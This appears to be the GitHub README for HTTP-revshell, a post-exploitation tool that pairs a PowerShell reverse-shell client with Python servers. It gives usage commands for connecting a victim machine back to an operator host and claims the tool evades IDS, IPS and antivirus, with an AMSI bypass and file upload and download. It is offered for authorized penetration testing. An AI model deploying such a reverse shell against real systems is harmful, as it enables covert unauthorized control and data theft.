 # Powershell HTTP/S Reverse Shell

[![Category-tool]]() [![Powershell]]() [![Python]]() [![License]]()

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol. It use a covert channel to gain control over the victim machine through web requests and thus evade solutions such as IDS, IPS and AV.

<p align="center"><img width=400 alt="HTTP-revshell" src="https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/images/logo.png"></p>
<p align="center">Logo by [JoelGMSec]</p>

## Help server.py (unisession server)
Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

Process some integers.

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

## Help Invoke-WebRev.ps1 (client)
Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

## Installation
```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

## Quick start server-multisession.py (multisession server)

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

## Features
 - SSL
 - Proxy Aware
 - Upload Function
 - Download Function
 - Error Control
 - AMSI bypass
 - Multiple sessions [only server-multisession.py]
 - Autocomplete PowerShell functions (optional) [only server.py]
    
## Extra functions usage
### Upload
 - upload /src/path/file C:\dest\path\file
### Download
 - download C:\src\path\file /dst/path/file

## Credits
 - [JoelGMSec] for his awesome Revshell-Generator.ps1. Twitter: [@JoelGMSec]
 - [dev-2null] for report the first bug. Twitter: [@dev2null]

## Disclaimer & License
This script is licensed under LGPLv3+. Direct link to [License](https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/LICENSE).

HTTP-revshell should be used for authorized penetration testing and/or nonprofit educational purposes only. 
Any misuse of this software will not be the responsibility of the author or of any other collaborator. 
Use it at your own servers and/or with the server owner's permission.

<!-- Twitter URLs -->
[@JoelGMSec]: https://twitter.com/JoelGMSec
[@dev2null]: https://twitter.com/dev2nulI

<!-- Github URLs -->
[JoelGMSec]: https://github.com/JoelGMSec
[dev-2null]: https://github.com/dev-2null

<!-- Badge URLs -->
[License]: https://img.shields.io/badge/License-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273134&colorB=006bbd "LGPL v3+"
[Category-tool]: https://img.shields.io/badge/Category-Post%20Exploitation-E5A505?style=flat-square&colorA=273134
[Powershell]: https://img.shields.io/badge/Powershell-3.0%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000
[Python]: https://img.shields.io/badge/Python-3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff6f00
